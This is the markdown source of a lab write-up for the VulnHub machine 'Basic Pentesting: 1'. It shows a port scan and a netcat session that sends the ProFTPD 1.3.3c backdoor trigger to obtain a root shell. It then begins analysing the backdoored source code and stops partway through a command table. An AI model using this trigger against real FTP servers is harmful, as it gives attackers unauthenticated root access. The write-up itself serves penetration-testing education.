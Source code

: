 ```yaml
---
title: 'VulnHub #Basic Pentesting: 1'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2019-02-24 13:08:44
categories:
  - Writeups
  - VulnHub
thumbnailImage: cover.png
keywords:
  - vulnhub
  - writeup
  - basic pentesting 1
tags:
  - Writeups
---
```

Official website: [Basic Pentesting: 1](https://www.vulnhub.com/entry/basic-pentesting-1,216)

VM Network Setup: Host Only (192.168.56.102)


## Nmap Port Scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## Method 01: ProFTPD 1.3.3c backdoor
It's really easy to know that proftpd 1.3.3c has an ~~official~~ backdoor by googling this specific version. The exploit is super simple, just send the command `HELP ACIDBITCHEZ` and you'll get a root shell lol.

```
$ nc 192.168.56.102 21
220 ProFTPD 1.3.3c Server (vtcsec) [192.168.56.102]
HELP ACIDBITCHEZ
id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
### How did this happen?
Since it's so easy to get a root shell, let's shift focus to source code analysis. You can find the backdoored version of proftpd 1.3.3c source code on the internet but not on the official FTP site.

First of all, line 5089 in `modules/mode_core.c`, `core_cmdtab` stored all commands including `C_HELP`.
```c
static cmdtable core_cmdtab[] = {
#if defined(HAVE_REGEX_H) && defined(HAVE_REGCOMP)
  { PRE_CMD, C_ANY, G_NONE,  regex_filters, FALSE, FALSE, CL_NONE },
#endif
  { PRE_CMD, C_ANY, G_NONE, core_clear_fs,FALSE, FALSE, CL_NONE },
  { CMD, C_HELP, G_NONE,  core_help,	FALSE,	FALSE, CL_INFO },
  { CMD, C_PORT, G_NONE,  core_port,	TRUE,	FALSE, CL_MISC },
  { CMD, C_PASV, G_NONE,  core_pasv,	TRUE,	FALSE, CL_MISC },
  { CMD, C_EPRT, G_NONE,  core_eprt,    TRUE,	FALSE, CL_MISC },
  { CMD, C_EPSV, G_NONE,  core_epsv,	TRUE,	FALSE, CL_MISC },
  { CMD, C_SYST, G_NONE,  core_syst,	FALSE,	FALSE, CL_INFO },
  { CMD, C_PWD,	 G_DIRS,  core_pwd,	TRUE,	FALSE, CL_INFO|CL_DIRS },
  { CMD, C_XPWD, G_DIRS,  core_pwd,	TRUE,	FALSE, CL_INFO|CL_DIRS },
```